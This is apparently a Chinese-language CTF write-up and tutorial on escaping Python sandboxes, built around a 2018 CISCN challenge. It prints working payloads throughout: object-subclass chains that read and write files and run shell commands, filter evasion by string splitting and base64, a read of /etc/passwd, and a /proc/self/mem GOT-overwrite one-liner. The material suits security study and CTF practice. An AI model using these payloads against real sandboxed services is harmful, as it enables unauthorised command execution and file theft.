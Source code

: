 ```yaml
---
typora-root-url: ../../../docs
---
```


# Python沙盒
所谓的 Python 沙盒，即以一定的方法模拟Python终端，实现用户对 Python 的使用。

# Python沙箱逃逸的一些方法
我们通常所说的 Python 沙箱逃逸就是绕过模拟的 Python 终端，最终实现命令执行。
## 导入模块
## 通过路径引入模块
Python 的 os 模块的路径几乎都是在 /usr/lib/python2.7/os.py 中，当知道路径的时候，我们就可以通过如下的操作导入模块。
```py
>>> import sys
>>> sys.modules['os']='/usr/lib/python2.7/os.py'
>>> import os
>>>
```


## 0x02 dir 与__dict__

首先，我们应该确定程序还有哪些内置函数可以用，我们可以通过 `dir __builtin__` 来获取内置函数列表
```python
>>> dir(__builtins__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BufferError', 'BytesWarning', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'NameError', 'None', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'ReferenceError', 'RuntimeError', 'RuntimeWarning', 'StandardError', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '_', '__debug__', '__doc__', '__import__', '__name__', '__package__', 'abs', 'all', 'any', 'apply', 'basestring', 'bin', 'bool', 'buffer', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'cmp', 'coerce', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'execfile', 'exit', 'file', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'intern', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'long', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'raw_input', 'reduce', 'reload', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'unichr', 'unicode', 'vars', 'xrange', 'zip']
```
在Python中，不引入直接使用的内置函数被成为**builtin**函数，随着**__builtin__**这个模块自动引入到环境中

进而，我们可以通过`__dict__`引入我们想要引入的模块

两种方法都是一个目的,那就是列出一个模组/类/对象 下面 所有的属性和函数
这在沙盒逃逸中是很有用的,可以找到隐藏在其中的一些东西
我们可以通过`__dict__`做什么呢？
一个模块对象有一个由字典对象实现的命名空间…属性引用被转换为这个字典中的查找，例如，m.x等同于m.dict["x"]

绕过实例：
首先通过 base64 绕过字符明文检测
```python
>>> import base64
>>> base64.b64encode('__import__')
'X19pbXBvcnRfXw=='
>>> base64.b64encode('os')
'b3M='
```
然后通过 **__dict__** 引用
```py
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64'))
```

*如果一些 内敛函数在 __builtins__ 删除 ，我们可以通过 reload(__builtins__) 重新载入获取一个完整的 __builtins__*
## 0x03 创建对象，以及引用
Python 的 object 类中集成了很多的基础函数，我们想要调用的时候也是可以通过创建对象进而引用

有常见的两个方法
```bash
().__class__.__bases__[0]
''.__class__.__mro__[2]
```
![](http://oayoilchh.bkt.clouddn.com/18-5-3/14928461.jpg)
如，我们可通过
`print ().__class__.__bases__[0].__subclasses__()[40]("/etc/services").read()`达到文件读取的效果，

**常见payload**
```py
#读文件
().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()

#写文件
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')

#执行任意命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
```
## 0x04 其他危险的函数
如 **execfile** 文件执行
```py
>>> execfile('/usr/lib/python2.7/os.py')
>>> system('cat /etc/passwd')
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
>>> getcwd()
'/usr/lib/python2.7'
```
**timeit**
```py
import timeit
timeit.timeit("__import__('os').system('dir')",number=1)
```

** exec 和 eval 比较经典了**
```py
eval('__import__("os").system("dir")')

```
**platform**
```py
import platform
print platform.popen('dir').read()
```

## 0x05 __getattr__() 和 __getattribute__() 
python 再访问属性的方法上定义了 __getattr__()  和 __getattribute__()  2种方法，其区别非常细微，但非常重要。

如果某个类定义了 __getattribute__() 方法，在 每次引用属性或方法名称时 Python 都调用它（特殊方法名称除外，因为那样将会导致讨厌的无限循环）。
如果某个类定义了 __getattr__() 方法，Python 将只在正常的位置查询属性时才会调用它。如果实例 x 定义了属性 color， x.color 将 不会 调用x.__getattr__('color')；而只会返回 x.color 已定义好的值。
这里，我们可以通过 __getattribute__ 这个方法做一些事，如下面的payload
```py
x = [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'ca'+'tch_warnings'][0].__init__
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s')
```

## 0x06 间接的引用调用
在有些题目中，如这次的2018年国赛的 Python 沙盒题目上，import 其实整个是被阉割了。

但是在Python中，原生的 **__import__** 是存在被引用的，只要我们找到相关对象引用就可以进一步获取我们想要的内容，具体下面的demo会讲述到

## 0x07 write修改got表
实际上是一个 **/proc/self/mem** 的内存操作方法
**/proc/self/mem** 是内存镜像，能够通过它来读写到进程的所有内存，包括可执行代码，如果我们能获取到Python一些函数的偏移，如 **system** ，我们就能通过想做pwn题的劫持got表做我们任意想做的事情

```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))
```
第一个地址是 system 的偏移，第二个是fopen的偏移，我们可以通过 **objdump** 获取相关信息
![](http://oayoilchh.bkt.clouddn.com/18-5-3/25123674.jpg)

# 例子
我们可以通过
`print ().__class__.__bases__[0].__subclasses__()[40]("/home/ctf/sandbox.py").read()` 
获取题目源码，然后可以进一步分析

## 解决
三种方法
### 0x01
```py
x = [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'ca'+'tch_warnings'][0].__init__
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s')
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s /home/ctf')
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ca'+'t /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb')
```
### 0x02
修改 got
```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('l'+'s /home/ctf/'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))


(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))

```
### 0x03
间接引用
在不断的 dir 过程中，发现 __closure__  这个 object 保存了参数，可以引用原生的 __import__
```py

print __import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('l'+'s home') 
```
# 参考
https://xz.aliyun.com/t/52#toc-10 
https://blog.csdn.net/qq_35078631/article/details/78504415 
https://www.anquanke.com/post/id/85571 
http://bestwing.me/2018/05/03/awesome-python-sandbox-in-ciscn/#0x01

